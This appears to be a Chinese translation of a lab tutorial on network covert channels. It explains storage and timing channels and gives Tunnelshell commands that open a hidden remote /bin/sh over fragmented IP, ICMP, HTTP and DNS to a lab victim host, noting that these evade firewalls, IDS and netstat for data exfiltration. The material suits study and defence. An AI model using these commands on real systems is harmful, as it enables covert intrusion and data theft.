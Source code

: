 ## Covert Channel: The Hidden Network

### What is Covert channel [^1]

- #### Type of covert channel

  - **Storage covert Channel** [^2]

  - **Timing Covert channels** [^3]

### Covert channel attack using tunnelshell [^4]

- #### What is Tunnelshell [^5]

  - **Requirement**

  - Server (Kali Linux)

  - Client (Ubuntu18.04)

  - Tool for Covert Channel (Tunnelshell) which you can download from [**here**](https://packetstormsecurity.com/search/files/?q=Tunnelshell)

  - ```bash
    # 在两个端点上安装tunnelshell
    tar xvfz tunnelshell_2.3.tgz
    make
    # 打开服务器的通信通道（Attacker）,默认情况下，它会发送片段数据包，该数据包在目的地重新组合以逃避防火墙和IDS
    sudo ./tunneld (Ubuntu)
    # 现在要与tunnelshell连接，我们需要在服务器（攻击者的机器）上执行以下命令，该命令将建立用于数据泄露的隐蔽通道
    # 语法：./ tunnel -i <session id（0-65535）> -d <发送数据包的延迟> -s <数据包大小> -t <隧道类型> -o <协议> -p <端口> -m <ICMP query> -a <ppp interface> <受害者的IP>
    ./tunnel -t frag 10.10.10.2
    # frag：使用IPv4分片数据包封装数据。当某些路由器和防火墙（如Cisco路由器和默认Linux安装）收到第四层没有标头的碎片数据包时，即使它们有拒绝它的规则，它们也允许通过它
    ```

    

- #### Covert ICMP Channel

  - Client: `sudo ./tunneld -t icmp -m echo-reply，echo`
  - Sever: `./tunnel -t icmp -m echo-reply,echo 10.10.10.2`

- #### Covert HTTP Channel [^6]

  - Client: `sudo  ./tunneld -t tcp -p 80,2000`
  - Server: `./tunnel -t tcp -p 80,2000 10.10.10.2`

- #### Covert DNS Channel [^7]

  - Client: `sudo ./tunneld -t udp -p 53,2000`
  - Server: `./tunnel -t udp -p 53,2000 10.10.10.2`

### Conclusion [^8]

[原文](https://www.hackingarticles.in/covert-channel-the-hidden-network/)

---

[^1]: 隐蔽一词意味着“隐藏或不可检测”，而频道是“通信模式”，因此隐蔽频道表示不可检测的通信网络。这使得管理员或用户通过秘密信道几乎检测不到传输。了解加密通信和隐蔽通信之间的区别非常重要。在隐蔽通信中，数据流由未授权方进行乱码和持久。然而，加密通信并不掩盖通过加密在两个端点之间传输的数据进行通信的事实



[^2]: 通过修改“存储位置”进行通信，这将允许一个进程直接或间接写入存储位置，并由另一个进程直接或间接读取它



[^3]: 执行影响接收器“观察到的实际响应时间”的操作。*注意：众所周知的Spectre和Meltdown使用系统的页面缓存作为其用于exfiltrating数据的隐蔽通道。**Specter和Meltdown攻击的工作原理是欺骗你的计算机缓存特权内存，错误的推测执行，缺乏检查无序执行的权限，以及页面缓存的强大功能。一旦访问了特权存储器，处理器就会缓存信息，并且处理器能够从缓存中检索它，无论其是否具有特权信息。**从[**这里**](https://medium.com/@danielabloom/covert-channels-demystified-4b1f406a76e3)阅读完整的文章。



[^4]: 几乎可以使用任何协议来建立隐蔽通道。绝大多数隐蔽频道研究都基于第3层（网络）和第4层（传输）协议，如ICMP，IP和TCP。还经常使用诸如HTTP和DNS的第7层（应用）协议。这种机制用于在不提醒网络防火墙和IDS的情况下传送信息，而且netstat无法检测到
[^5]: Tunnelshell是一个用C编写的程序，适用于Linux用户，可以使用客户端 - 服务器范例。服务器打开客户端可以通过虚拟隧道访问的/ bin / sh。它适用于多种协议，包括TCP，UDP，ICMP和RawIP，都可以使用。此外，数据包可能被分段以逃避防火墙和IDS
[^6]: 它在不使用三向握手的情况下建立虚拟TCP连接。它不绑定任何端口，因此您可以使用另一个进程已经在使用的端口
[^7]: 要建立DNS隐蔽通道，我们需要在两台端点机器上运行UDP隧道模式
[^8]: 隐蔽通道在数据泄露时不会发送加密数据包，因此，它很容易嗅探，网络管理员可以轻松进行数据丢失和风险管理